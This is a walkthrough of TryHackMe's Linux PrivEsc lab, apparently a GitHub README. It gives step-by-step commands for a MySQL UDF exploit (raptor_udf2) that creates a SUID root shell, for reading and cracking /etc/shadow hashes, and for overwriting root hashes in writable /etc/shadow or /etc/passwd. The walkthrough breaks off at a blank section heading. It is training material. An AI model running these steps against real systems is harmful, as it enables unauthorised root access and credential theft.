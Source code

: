 # TRYHACKME : Linux PrivEsc
Deploy the target machine, and enter the following ssh credentials: `user:password321`

## Service Exploits
Simply copy in consecutive order the ff commands:
```
cd /home/user/tools/mysql-udf
```
Compiler the following file `raptor_udf2.c`
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Connect to the mysql with no password:
```
mysql -u root
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
whoami  // voila root access
```


## Weak File Permissions - Readable /etc/shadow
```
ls -l /etc/shadow
cat /etc/shadow
```
Save the root password hash to a txt file. The hash is found between the first and second colon.

Then run John the Ripper or use online resources to crack it.
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
The type of hashing algorithm used will appear during John the Ripper cracking.

## Weak File Permissions - Writable /etc/shadow
If the file is writable, we can change the root password by generating a new hash password (same hashing algorithm as the previous password), and replacing the existing hash.
```
mkpasswd -m sha-512 newpasswordhere
```
Then edit the /etc/shadow and replace the old hash password.

Switch to root user.
```
su
```

## Weak File Permission - Writable /etc/passwd
Some old versions of linux stores user password hashes. 

If the `/etc/passwd` happens to be writable, we can generate a hash and store it within the first and second colon.

Generate new hash password:
```
openssl passwd newpasswordhere
```

Then edit the root in `/etc/passwd`. Place the hash between the first and second hash.

After that you can switch to the root user.
```
su
```

## Sudo - Shell Escape Sequences
